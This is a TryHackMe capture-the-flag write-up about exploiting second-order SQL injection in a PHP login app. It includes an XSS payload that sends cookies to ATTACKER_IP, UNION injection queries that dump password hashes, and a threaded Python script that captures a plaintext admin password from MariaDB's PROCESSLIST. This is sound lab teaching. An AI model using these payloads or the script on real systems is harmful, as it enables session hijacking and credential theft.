This box is rated hard difficulty on THM. It involves us finding out that a web application is vulnerable to Second-Order SQL injection, which could be used to enumerate system information. By making malicious queries to PROCESSLIST's INFO column under the information_schema database, we can leak the statements being used upon logins in order to capture admin credentials.

_It's easy to fall into rabbit holes._

## Scanning & Enumeration
As always, I begin with an Nmap scan against the provided IP to find all running services on the host; Repeating the same for UDP yields no results.

```
$ sudo nmap -p22,80 -sCV 10.66.185.26 -oN fullscan-tcp
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-18 02:13 CST
Nmap scan report for 10.66.185.26
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Your page title here :)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.04 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

We won't be able to do much with that version of OpenSSH without credentials, so I fire up Gobuster to search for subdirectories/subdomains in the background. Since this challenge is about dodging rabbit holes, I want to enumerate the entire attack surface first and then spend time on the things that won't take as long in order to rule out possibilities one by one.

Checking out the landing page shows a barren login panel for some type of recruitment campaign.



We're able to register our own account and I do so to enumerate the internal functions on the site. An interesting thing to note here is that instead of a typical create button, it says submit query which may be hinting at a second-order SQLi or for us to use account registration for any exploits in the future.



Hitting the dashboard after logging in shows that we the site was built using PHP. Another thing to note is that upon login the site hangs for a tiny bit, each time seeming random so maybe a sleep command is being ran in order to rate limit logins as their way of an anti-bruteforce measure.

## XSS Payloads
The only thing displayed here is the last login times for all users registered on the site. The main page says that the login functionality is being monitored (presumably by the admin) so maybe we're supposed to use cross-site scripting in order to steal the administrator's cookie.



This is a bit obvious and almost feels like a trap, however my scans haven't found anything else so I proceed. My go-to payload when testing for XSS is the following:


```
<script>var c='coo'+'kie';document.location='http://ATTACKER_IP/?c='+document[c];</script>
```


This almost always works and has the added benefit of bypassing any WAF rules or filters in place. A few attempts later shows that the site is indeed vulnerable to XSS, however even though the admin login times are being updated, we don't get a cookie back. 

Reverting to a simpler payload shows that the image gets loaded, but another interesting thing is the presence of a SQL syntax error. Judging by where the error starts, we can assume that " is a bad character that breaks the query whenever loading last login information.


```

```




## Second-Order SQL Injection
The register page doesn't reflect queries being made, however the username is being loaded upon login so we can swap between registering accounts and loading the dashboard to confirm queries.

If you're unaware, Second-order SQL injection occurs when malicious input is safely stored by an application but later reused in a different SQL query without proper sanitization. Attackers exploit this delayed execution to trigger injected queries during later operations (e.g., searches, admin views, or background jobs), allowing them to enumerate tables, columns, or sensitive data over time.

Here are a few sources for further information regarding this topic, it's quite a cool one in my opinion. [Port Swigger Article](https://portswigger.net/kb/issues/00100210_sql-injection-second-order) & [NetSPI Article](https://www.netspi.com/blog/technical-blog/web-application-pentesting/second-order-sql-injection-with-stored-procedures-dns-based-egress/)

### Enumerating Web Database
In order to manually enumerate the site's database, I'll refer to both the [PayloadsAllTheThings SQL Injection cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) and this [Enumerating Databases via SQLi](https://github.coventry.ac.uk/pages/CUEH/245CT/6_SQLi/DatabaseEnumeration/) article which provides clear steps for us to replicate.

Typically, we'd first need to enumerate the correct amount of columns in the current query so no errors get thrown, however the error printed the query being used which contains two columns. I create a new user to see which one is being reflected upon login.

```
" UNION SELECT 1,2-- -
```



Seems the second one is, now let's enumerate the database name with help from the `information_schema` DB.

```
" UNION SELECT 1,schema_name from information_schema.schemata-- -
```



There is just one database by the name of web on the system. Next, let's find all tables inside of it.

```
" UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='web'-- -
```



We probably want the users table as it may hold any passwords/hashes for all registered accounts on the site. Next, let's find all columns in that table and see which fields to extract. Note that we should use the `group_concat` operator as longer strings may be cut off due to how the site's built.

```
" UNION SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_schema= 'web' and table_name ='users'-- -
```



Due to there not being an admin identifier present and the fact that we already know there is an admin account on the site, this output just seemed too short. We'll need to use a second command to display the second portion of the columns. The substring function allows us to do so while specifying how many characters to print. Only 16 characters worked the first time so we'll work our way up from there.

```
" UNION SELECT 1,SUBSTRING((SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema = 'web' and table_name ='users'), 17, 16)-- -
```



So the columns are `id, username, password`, and `group`. Due to the print space being relatively small, we probably won't be able to fit all that info in one output. I want to enumerate all users on the box before dumping their passwords in case something stands out.

```
" UNION SELECT 1,'username' FROM users-- -
```

There are three other users being **admin**, **foo**, and **bar**. We can utilized the following queries to piece together each password while specifying which username to filter for.

```
" UNION SELECT 1,SUBSTRING((SELECT group_concat(password) FROM users WHERE username= 'admin'), 1, 16)-- -
```

```
" UNION SELECT 1,SUBSTRING((SELECT group_concat(password) FROM users WHERE username= 'admin'), 17, 16)-- -
```

I grab the admin hash but it never ends up cracking. Moving onto the other users, resolving their MD5 hashes to their plaintext version states a rather disappointing message.



### Stealing Admin password via INFO column
My enumeration was pretty thorough if I do say so myself, so I kind of figured this had to be the correct attack vector. Praying that this wasn't a very sophisticated rabbit hole and I wasn't just missing something obvious, I refreshed my knowledge on SQL injection and how it could be used in ways other than dumping database information.

In some cases, SQLi can be used to write files to the system using the `INTO OUTFILE` operator. I spent some time testing this but it seemed to be disabled and we had no real way of getting the system to proc the shell anyhow. I decide to switch gears to the information_schema table, as it's the only other database on the site. Speaking of, it can actually be used to leak some interesting things since it's main purpose is for administration.

After taking a little break and a deep dive on  MariaDB's information_schema database revealed the [PROCESSLIST table](https://mariadb.com/docs/server/reference/system-tables/information-schema/information-schema-tables/information-schema-processlist-table). This contains detailed information about running threads, which including their current state and execution time. Most of the columns inside that table are just technical data being used by the process in order to perform tasks, however the INFO column holds a statement that the thread is executing (potentially being NULL if none is provided).



Alright, how does this really help us? We know that the site is being monitored by the administrator every minute or so and that the sleep function is being called during the login process. That means that every time the administrator logs in, there is a small window for us to read the statement that thread is executing and just maybe the admin's password. 

```
Time ─────────────────────────────────────────▶

Admin login        Password in INFO        Gone
    │                   │                   │
    ▼                   ▼                   ▼
───────────────[ 1–5 second window ]───────────────
                  ▲
                  │
          SQLi query executed
```

This pretty much relies on timing and the fact that hopefully the MD5 hashing function is being ran by MariaDB instead of the login.php page as we'd like to capture the plaintext variant, not the hash we already tried cracking.

Before getting too ahead of myself, I realized we still only had a reliable method to print 16 characters segments at a time and that running multiple queries in that small window probably won't do. We could just make a ton of accounts on the site that all execute the same query on PROCESSLIST's INFO column to piece together the statement, but that doesn't really seem elegant.

This part I was stuck on for the longest time; I mistook our payloads to execute upon hitting the login form instead of when  we visit the dashboard/last logins page for whatever reason. My original script had us logging in to each account in order for us to query the INFO statement.

Realizing what was actually happening, we could simply already be logged in to each account and then make continuous requests by refreshing, whilst using our username as the payload. Updating my script to its final rendition with the help of ClaudeCode left me with the following:

```
#!/usr/bin/env python3

import sys
import time
import threading
import requests
from bs4 import BeautifulSoup

TARGET = sys.argv[1]
INJECTION = sys.argv[2]

SESSION_POOL = {}
CHUNKS = {}
WORKERS = 15

def init_session(idx, injected_user):
    client = requests.Session()

    client.post(
        f"{TARGET}register.php",
        data={
            "username": injected_user,
            "password": "cbevrocks",
            "submit": "Submit Query"
        }
    )

    client.post(
        f"{TARGET}login.php",
        data={
            "username": injected_user,
            "password": "cbevrocks",
            "login": "Submit Query"
        }
    )

    SESSION_POOL[idx] = client

def scrape_result(idx):
    response = SESSION_POOL[idx].get(TARGET)
    parser = BeautifulSoup(response.text, "html.parser")

    tables = parser.select("table.u-full-width")
    CHUNKS[idx] = tables[1].find("td").text

def spawn_threads(target, args_list):
    threads = []
    for args in args_list:
        t = threading.Thread(target=target, args=args)
        t.start()
        threads.append(t)
    for t in threads:
        t.join()

# Phase 1: create authenticated sessions with SQLi payloads
payload_jobs = []
for n in range(WORKERS):
    fragment = f'" UNION SELECT 1, SUBSTR(({INJECTION}), {n * 16 + 1}, 16);#'
    payload_jobs.append((n, fragment))

spawn_threads(init_session, payload_jobs)

# Phase 2: poll until full result is recovered
while True:
    spawn_threads(scrape_result, [(i,) for i in range(WORKERS)])

    # ensure chunk ordering stability
    if all(len(CHUNKS[i]) <= len(CHUNKS[i - 1]) for i in range(1, WORKERS)):
        assembled = "".join(CHUNKS[i] for i in range(WORKERS))
        if len(assembled) > 16:
            print(assembled)
            sys.exit(0)

    time.sleep(1)
```

## Shell as Admin
Now we just need to provide it with the target host as well as our SQL query that will extract the statement from that INFO column.

```
SELECT INFO_BINARY from information_schema.PROCESSLIST WHERE INFO_BINARY NOT LIKE "%INFO_BINARY%" LIMIT 1
```



It's far from perfect but it still works to grab the plaintext string from the statement. As suspected, the site itself does not handle the hashing process which leaves this susceptible to our attack. All that's left is to SSH onto the box as the admin user and grab our well-earned flag to complete this challenge.



That's all y'all, man this box went from 0–100 real quick and there were definitely times where I thought SQL injection was not the way to go. It seemed way above my skill level until coming to the realization that it's almost like a MITM attack where we snoop on HTTP traffic to capture creds, obviously this being a bit harder to execute. 

Huge thanks to [shamollash](https://tryhackme.com/p/shamollash) for creating another fantastic box, I recommend checking out his other ones. I hope this was helpful to anyone following along or stuck like I was and happy hacking!
